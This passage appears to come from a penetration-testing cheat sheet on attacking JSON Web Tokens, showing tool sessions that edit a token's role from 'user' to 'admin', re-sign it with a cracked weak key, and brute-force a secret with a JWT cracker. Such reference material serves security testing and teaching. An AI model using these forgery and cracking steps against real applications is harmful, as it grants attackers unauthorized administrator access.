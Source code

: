 Then edit the field inside the JSON Web Token.

```powershell
Current value of role is: user
Please enter new value and hit ENTER
> admin
[1] sub = 1234567890
[2] role = admin
[3] iat = 1516239022
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
```

Finally, finish the token by signing it with the previously retrieved "secret" key.

```powershell
Token Signing:
[1] Sign token with known key
[2] Strip signature from token vulnerable to CVE-2015-2951
[3] Sign with Public Key bypass vulnerability
[4] Sign token with key file

Please select an option from above (1-4):
> 1

Please enter the known key:
> secret

Please enter the keylength:
[1] HMAC-SHA256
[2] HMAC-SHA384
[3] HMAC-SHA512
> 1

Your new forged token:
[+] URL safe: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da_xtBsT0Kjw7truyhDwF5Ic
[+] Standard: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da/xtBsT0Kjw7truyhDwF5Ic
```

### JWT cracker

```bash
git clone https://github.com/brendan-rius/c-jwt-cracker
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
Secret is "Sn1f"
```

### Hashcat
